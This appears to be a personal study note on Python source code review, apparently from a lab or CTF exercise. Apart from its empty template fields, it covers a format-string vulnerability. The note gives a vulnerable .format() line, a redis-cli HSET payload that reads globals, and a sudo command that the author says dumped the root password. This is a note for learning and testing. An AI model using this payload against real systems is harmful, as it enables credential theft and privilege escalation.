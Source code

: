 ```yaml
---
creation date: May 19th 2023
last modified date: May 19th 2023
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Python Source Code Review]]  
___

## Description:  

### Eval


### Format String Exploit
https://podalirius.net/en/articles/python-format-string-vulnerabilities/

Look for curly brackets in source code:
```
license_key = (prefix + username + "{license.license}" + firstlast).format(license=l)
```
you need to use the correct class (not self like in the link above).

In this specific example, the script was pulling from a redis database, so the exploit was set there with `{license.__init__.__globals__[secret]}`:

```
/usr/bin/redis-cli -s /var/run/redis/redis.sock HSET test username "{license.__init__.__globals__[secret]}"

sudo /usr/bin/license -p test
```
This allowed me to dump secret, which was a password to the root account.

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: May 19th 2023 (09:53 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
